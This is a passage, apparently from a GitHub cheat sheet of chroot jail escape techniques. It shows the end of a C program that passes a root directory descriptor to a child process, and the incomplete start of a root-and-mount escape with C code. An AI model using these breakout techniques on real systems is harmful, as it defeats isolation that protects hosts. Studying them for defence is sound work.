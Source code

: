```c

        printf("Parent: Opened FD %d for /\n", fd);

        // Send FD to child
        send_fd(sockpair[0], fd);
        printf("Parent: Sent FD to child\n");

        close(fd);
        close(sockpair[0]);
        wait(NULL);  // Wait for child process to finish
    }
    
    return 0;
}

```
#### 5 - Root + Mount

- Mounting root device (/) into a directory inside the chroot jail
- Chroot into that directory will pop you out of the box

```c 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/mount.h>
#include <string.h>
#include <errno.h>
#include <dirent.h>

#define CHROOT_PATH "chroot_env"

int main() {
    char proc_root[256];
    char target_root[256];
    struct stat own_root_stat, target_root_stat;
    DIR *proc_dir;
    struct dirent *entry;
    int found = 0;

    
    if (mkdir(CHROOT_PATH, 0755) < 0 && errno != EEXIST) {
        perror("mkdir");
        exit(EXIT_FAILURE);
    }

    
    if (chroot(CHROOT_PATH) < 0) {
        perror("chroot");
        exit(EXIT_FAILURE);
    }

    if (chdir("/") < 0) {
        perror("chdir");
        exit(EXIT_FAILURE);
    }

    
    if (mkdir("/proc", 0755) < 0 && errno != EEXIST) {
        perror("mkdir /proc");
        exit(EXIT_FAILURE);
    }
```
